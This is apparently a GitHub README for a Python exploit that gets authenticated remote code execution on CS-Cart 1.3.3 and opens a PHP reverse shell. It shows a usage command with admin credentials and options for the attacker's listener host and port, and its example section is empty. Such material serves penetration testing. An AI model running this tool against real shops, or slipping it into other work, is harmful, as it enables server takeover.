

# CS-Cart Authenticated RCE
Authenticated RCE in vulnerable version of CS-Cart 1.3.3 that allows admin user to php reverse shell.

<hr>

#### 1. Basic Usage:
```
$ sudo python3 cs_cart.py --url http://192.168.64.39 -U admin -P admin -l <pentesterIP> -p <pentesterPort>
```

#### 2. Help Menu:
```
usage: cs_cart.py [-h] [-u URL] [-U USER] [-P PWD] [-l LHOST] [-p LPORT]

--- Authenticated CS-Cart 1.3.3 RCE ---

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL to CS Cart.
  -U USER, --user USER  Admin username.
  -P PWD, --pwd PWD     Admin password.
  -l LHOST, --lhost LHOST
                        Local host for the reverse shell.
  -p LPORT, --lport LPORT
                        Local port for the reverse shell.
```

#### 3. Example:

